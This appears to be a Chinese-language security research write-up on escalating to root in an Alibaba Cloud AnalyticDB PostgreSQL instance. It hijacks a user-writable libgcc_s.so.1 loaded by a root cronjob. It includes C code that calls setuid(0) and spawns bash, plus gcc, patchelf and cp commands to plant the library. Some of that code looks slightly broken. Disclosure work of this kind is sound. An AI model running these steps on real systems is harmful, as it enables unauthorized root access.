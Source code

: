 查看libgcc_s.so.1库的信息，它归用户所有adbpgadmin，可以被覆盖！

  *   * 

    
    
    $: ls -alh /u01/adbpg/lib/libgcc_s.so.1 -rwxr-xr-x 1 adbpgadmin adbpgadmin 102K Oct 27 12:22 /u01/adbpg/lib/libgcc_s.so.1

可以用我们自己的共享库覆盖这个文件，那么下次 cronjob 任务执行二进制文件时，我们库的代码将以 root 身份执行！

为了利用这种行为，我们遵循了以下步骤：

  1. 编译了一个共享库，将其复制/bin/bash并/bin/dash使其成为 SUID，这样我们就可以以 root 身份执行代码。

  2. 使用PatchELF实用程序向库添加依赖项libgcc_s.so.1。这样当它被加载时，我们自己的库也会被加载。

  3. 覆盖了原来的libgcc_s.so.1库。

  4. 等待/usr/bin/tsar被执行。

我们的策略最终成功了，授予我们 root 访问权限。

>
> 这是一个很常见的提权技巧，它利用了计划任务在执行时会加载一些依赖库的特点，如果这些依赖库可以被普通用户修改或者替换，那么就可以植入恶意代码，从而在计算任务运行时以root权限运行。用ldd命令查看程序所依赖的共享列表

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <stdio.h>#include <stdlib.h>#include <unistd.h>  
    void backup(){  if (setuid(0) == 0) // 设置用户ID为0  {    system("/bin/bash"); // 调用bash命令  }  else  {    perror("setuid failed");  }}

  *   *   *   *   *   * 

    
    
    gcc -fPIC -c rootshell.cgcc -shared -o librootshell.so rootshell.ocp /bin/bash /bin/dashpatchelf --set-interpreter ./librootshell.so dashcp librootshell.so /u01/adbpg/lib/libgcc_s.so.1最后，等待/usr/bin/tsar被执行

![](https://gitee.com/fuli009/images/raw/master/public/20230617194532.png)

这里完成了第一步，通过计划任务提升至root权限

通过调用阿里云门户中的某些操作（例如启用 SSL 加密），我们观察到 SCP 和 SSH 等多个进程的产生。

![](https://gitee.com/fuli009/images/raw/master/public/20230617194533.png)

启用/禁用 SSL 加密的选项

  *   *   *   *   *   * 

    
    
    # Command lines of the spawned processessu - adbpgadmin -c scp /home/adbpgadmin/xxx_ssl_files/* *REDACTED*:/home/adbpgadmin/data/master/seg-1/   
    /usr/bin/ssh -x -oForwardAgent=no -oPermitLocalCommand=no -oClearAllForwardings=yes -- *REDACTED* scp -d -t /home/adbpgadmin/data/master/seg-1/
